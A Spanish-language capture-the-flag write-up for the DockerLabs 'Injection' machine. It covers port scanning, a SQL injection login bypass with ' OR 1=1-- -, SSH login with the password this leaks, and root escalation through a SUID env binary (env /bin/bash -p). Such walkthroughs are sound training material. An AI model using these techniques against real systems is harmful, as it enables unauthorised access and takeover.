 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Injection DockerLabs (Very Easy)

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip injection.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh injection.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-02 05:11 EST
Nmap scan report for 172.17.0.2
Host is up (0.000034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.82 seconds
```

Si entramos en la pagina vemos un `login`, pero si probamos las credenciales por defecto veremos que no nos va a dejar entrar, vamos a probar algun `payload` para ver si fuera vulnerable a un `SQL Injection`:

```
User: ' OR 1=1-- -
Pass: ' OR 1=1-- -
```

Como resultado veremos lo siguiente:

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Vemos que directamente podremos `bypassear` el login y ver las credenciales de un usuario, por lo que haremos lo siguiente.

```shell
ssh dylan@<IP>
```

Metemos como contarseña `KJSDFG789FGSDF78` y veremos que estamos dentro.

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2102291    332 -rwsr-xr-x   1 root     root       338536 Jan  2  2024 /usr/lib/openssh/ssh-keysign
  2102231     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  2097641     44 -rwsr-xr-x   1 root     root          44808 Feb  6  2024 /usr/bin/chsh
  2097766     40 -rwsr-xr-x   1 root     root          40496 Feb  6  2024 /usr/bin/newgrp
  2097777     60 -rwsr-xr-x   1 root     root          59976 Feb  6  2024 /usr/bin/passwd
  2097841     56 -rwsr-xr-x   1 root     root          55672 Feb 21  2022 /usr/bin/su
  2097703     72 -rwsr-xr-x   1 root     root          72072 Feb  6  2024 /usr/bin/gpasswd
  2097761     48 -rwsr-xr-x   1 root     root          47480 Feb 21  2022 /usr/bin/mount
  2097867     36 -rwsr-xr-x   1 root     root          35192 Feb 21  2022 /usr/bin/umount
  2097635     72 -rwsr-xr-x   1 root     root          72712 Feb  6  2024 /usr/bin/chfn
  2117300     44 -rwsr-xr-x   1 root     root          43976 Jan  8  2024 /usr/bin/env
```

Vemos la siguiente linea bastante interesante:

```
2117300  44 -rwsr-xr-x   1 root  root   43976 Jan  8  2024 /usr/bin/env
```

Por lo que sabiendo esto podremos ejecutar el siguiente comando:

```shell
env /bin/bash -p
```

Info:

```
bash-5.1# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
